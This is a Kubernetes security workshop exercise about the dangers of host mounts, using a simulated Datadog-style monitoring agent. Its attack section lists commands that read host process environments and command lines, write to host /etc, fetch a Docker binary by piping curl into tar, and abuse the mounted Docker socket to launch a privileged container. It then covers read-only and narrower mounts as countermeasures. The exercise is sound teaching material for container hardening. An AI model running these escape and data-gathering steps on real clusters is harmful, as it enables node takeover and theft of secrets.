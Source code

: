 +++
categories = []
date = "2020-02-20"
description = ""
slug = ""
tags = []
title = "Read-only host mounts"
draft = false
toc = true
weight = 15
+++

### Introduction
In this exercise, we cover:

 - The risk of host mounts
 - How to use read-only mounts if they suffice

### Setup
In this example, we'll just directly use a shell inside the app.
Our example app will be a simulated monitoring agent mounting the same paths as the [Datadog DaemonSet](https://docs.datadoghq.com/agent/kubernetes/daemonset_setup/?tab=k8sfile):
```
volumeMounts:
  - {name: dockersocket, mountPath: /var/run/docker.sock}
  - {name: procdir, mountPath: /host/proc, readOnly: true}
  - {name: cgroups, mountPath: /host/sys/fs/cgroup, readOnly: true}
  - {name: s6-run, mountPath: /var/run/s6}
  - {name: logpodpath, mountPath: /var/log/pods}
  ## Docker runtime directory, replace this path with your container runtime
  ## logs directory, or remove this configuration if `/var/log/pods`
  ## is not a symlink to any other directory.
  - {name: logcontainerpath, mountPath: /var/lib/docker/containers}
```

We'll also mount `/etc` itself for extra fun.

Let's deploy our simulated agent:

```
kubectl apply -f https://securek8s.dev/agent/base.yaml
```

<!-- TODO: note that you read env vars with this mount, even if read-only. Also, the Docker socket—scream! -->

### Attack
With our power to execute commands, we'll see what types of files we
could modify, and what sorts of access they could provide.

Find a pod:
```
kubectl get po -n mounts
```

Then get into it:
```
kubectl exec -it -n mounts <pod> bash
```

Now, try some host modifications and information gathering attempts:

```
touch /host/etc/flag
ls /host/proc/
cat /host/proc/*/cmdline
cat /host/proc/1/env
```

Note that our host info is different from our container's:

```
cat /proc/1/cmdline
```

What else can you come up with?

Note that this deployment is extra-dangerous because it mounts the Docker socket.
That's a great way for your container to have effectively root privileges on the node.

Let's see what we can do:

```
apt-get update
apt-get install curl
curl https://download.docker.com/linux/static/stable/x86_64/docker-19.03.6.tgz | tar xzv
./docker/docker ps
./docker/docker run --rm -it --privileged ubuntu
```

Use ctrl-D to exit once you've finished poking around.
(Now you're back in the pod.)

Let's use some of the other mounts. For instance, we could spy on other containers' logs:
```
ls /var/log/pods
```

Pick a pod you're interested in, then see what you can learn from the logs.

### Countermeasure
We can:

 - Remove some mount paths our application doesn't need,
 - Mark some of our mounts read-only, and
 - Mount more specific paths,

depending on the access we actually need.

This can require a bit of application knowledge, so is often best done with the team that maintains or operates the app.

Let's see what our improved deployment changes:

```
kubectl diff -f https://securek8s.dev/agent/improved.yaml
```

Then let's deploy it:

```
kubectl apply -f https://securek8s.dev/agent/improved.yaml

```

### Attack effects after patching
You can't mess with stuff if you can't write to it, or
find out information you can't read!

Note that the Docker socket [still **does** work](https://news.ycombinator.com/item?id=17983623) despite us mounting it read-only:

```
apt-get update
apt-get install curl
curl https://download.docker.com/linux/static/stable/x86_64/docker-19.03.6.tgz | tar xzv
./docker/docker ps
./docker/docker run --rm -it --privileged ubuntu
```

If we try some of the same manipulations we tried earlier, they'll fail.

### How to use it yourself
If you use an application that needs to know something about the host,
you might need to mount a host path.

You can minimize the risk that such mounts poses by:

 - marking them read-only, and
 - minimizing the mount surface to just what's required.

Note, when you're slimming down mounts: container runtimes will sometimes _create_ files on your host
if they do not exist, which can be a problem if you want to mount
a path that might not exist.
This is particularly annoying when you try to mount a specific file
and the runtime creates a directory.

### Next up
We'll pivot to network policies in the next exercise:

[**Network policies**](../20-netpol)
